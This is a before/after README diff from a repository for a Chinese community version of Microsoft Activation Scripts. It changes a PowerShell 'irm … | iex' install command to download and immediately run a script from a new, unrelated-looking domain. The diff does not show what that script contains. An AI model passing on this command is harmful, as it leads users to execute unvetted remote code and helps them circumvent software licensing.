

Before and after one commit to XiGeMaX/MAS-zh_CN, a Markdown page: README.md, the part around the change. GitHub-like rendering.

Commit message:
Change script download URL for PowerShell
Update download command URL in README.md

````diff
--- a/README.md
+++ b/README.md
@@ -41,7 +41,7 @@ MAS-zh_CN 是微软激活脚本（Microsoft Activation Scripts, MAS）的社区*
 在 Windows PowerShell 中执行以下命令，脚本将自动下载并运行：
 
 ```powershell
-irm https://mas-zh-cn.pages.dev/get | iex
+irm https://get.9999918.xyz/get | iex
 ```
 
 ### 方式二：本地运行
````
